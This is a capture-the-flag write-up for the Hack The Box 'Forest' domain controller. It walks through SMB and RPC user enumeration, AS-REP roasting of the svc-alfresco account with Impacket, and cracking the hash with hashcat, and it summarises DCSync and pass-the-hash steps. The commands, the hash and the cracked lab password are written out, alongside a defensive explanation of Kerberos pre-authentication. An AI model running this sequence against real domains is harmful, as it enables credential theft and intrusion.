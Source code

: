 # Forest

- [Forest](#forest)
  - [Recon](#recon)
  - [User Compromise](#user-compromise)
    - [Crack the Hash](#crack-the-hash)
    - [Kerberos Pre-auth](#kerberos-pre-auth)
  - [Privilege Escalation](#privilege-escalation)
  - [Root](#root)
  - [Resources](#resources)

## Recon

I started with nmap, and if the box names wasn't enough of a hint, surprise, It's a domain controller.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p- --min-rate=10000 -T5 -o nmap_all forest
```

![Alt text](images/nmap-1.jpg "Nmap Output")

Next, I tried to enumerate all that is SMB.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p445 forest --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse
```

The shares were all of the standard Windows/DC shares and I didn't have access to any of them. I was able to get a list of groups and user accounts. 

![Alt text](images/nmap-users.jpg "User snip")

The user account list contained a few interesting users:

| User                     | Flags                                                                          |
| ------------------------ | ------------------------------------------------------------------------------ |
| HTB\$331000-VK4ADACQNUCA | Password Expired, Account disabled, Password not required, Normal user account |
| HTB\andy                 | Password does not expire, Normal user account                                  |
| HTB\lucinda              | Password does not expire, Normal user account                                  |
| HTB\mark                 | Password does not expire, Normal user account                                  |
| HTB\santi                | Password does not expire, Normal user account                                  |

There were also several mailbox accounts for Exchange. 

But I still don't have anything useful to go off of. Next, I poked around with rpcclient.

```bash
┌──(milt0r㉿kali)-[~/htb/forest/ldap]
└─$ rpcclient -U "" -N 10.10.10.161
```

Here, I get a little different list. It includes **svc-alfresco** and **sebastien**.

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Enumerate domain groups, and one of them stands out as interesting:

```bash
rpcclient $> enumdomgroups
group:[Privileged IT Accounts] rid:[0x47d]
```

Examine that group membership and it points me to "Service Accounts" which contains our service account. Seems to be what we're looking for. 

```bash
rpcclient $> querygroupmem 0x47d
        rid:[0x47c] attr:[0x7]
rpcclient $> queryuser 0x47c
result was NT_STATUS_NO_SUCH_USER
rpcclient $> querygroup 0x47c
        Group Name:     Service Accounts
        Description:
        Group Attribute:7
        Num Members:1
rpcclient $> querygroupmem 0x47c
        rid:[0x47b] attr:[0x7]
rpcclient $> queryuser 0x47b
        User Name   :   svc-alfresco
        Full Name   :   svc-alfresco
```

Next, I tried ldapdomaindump and ldeep. ldeep returned nothing, and ldapdomaindump encountered an exception that looks to be a [known issue](https://github.com/dirkjanm/ldapdomaindump/issues/26) with that tool and this box. 


From here I started scrolling through the PayloadsAllTheThings AD Attacks article looking for something useful that didn't require creds. Eventually, I landed on Impacket's **GetNPUsers.py.** If you read the section on that tool (link below), it coincidentally mentions svc-alfresco in the example. 

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/ -dc-ip 10.10.10.161
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-10-16 20:10:06.352042  2019-09-23 04:09:47.931194  0x410200
```

Great. 

## User Compromise

Next, I dump the TGT for the service account. 

```
┌──(tom㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Cannot authenticate svc-alfresco, getting its TGT
$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e
```

### Crack the Hash

I like putting my RTX 3080 to use, so I typically run hashcat on Windows. 

```powershell
PS D:\htb\tools\hashcat\hashcat-6.2.1> .\hashcat.exe -m18200 -a0 hash.txt D:\htb\tools\wordlists\rockyou.txt
hashcat (v6.2.1) starting...

$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e:s3rvice
```

**svc-alfresco:s3rvice**

### Kerberos Pre-auth

I recall in my Active Directory days *rarely* seeing applications running on systems in enterprise enviorments that required this to be turned off for accounts. In all of the AD risk assessments I performed over the years, I think I saw just a handfull of environments with pre-auth disabled. Why's it important? 

**TL;DR:** It prevents offline attacks against the TGT. 

When pre-auth is enabled, the Key Distribution Center (KDC) challenges the client to use their password hash to encrypt a timestamp. If the KDC, having a copy of the user's password hash, can decrypt and validate that it's within the acceptable range (default +/- five minutes), it'll respond with the ticket-granting ticket (TGT). The TGT is encrypted with the user's password hash. The client can decrypt the TGT only if it has the password.

If we disable the pre-authentication requirement, the KDC returns the TGT to the caller. This means that any attacker can get the TGT and attempt to crack the password offline, which is what we accomplished here. 

## Privilege Escalation



> **Summary:** Leverage over-permissioned user to escalate privileges and dump NTDS password hashes via Mimikatz DCSync.

## Root

> **Summary:** Use stolen hashes and psexec.py to pass-the-hash and get Administrator shell. 

## Resources

- [PayloadsAllTheThings AD Attacks ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [LDAP Filter Ref](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx)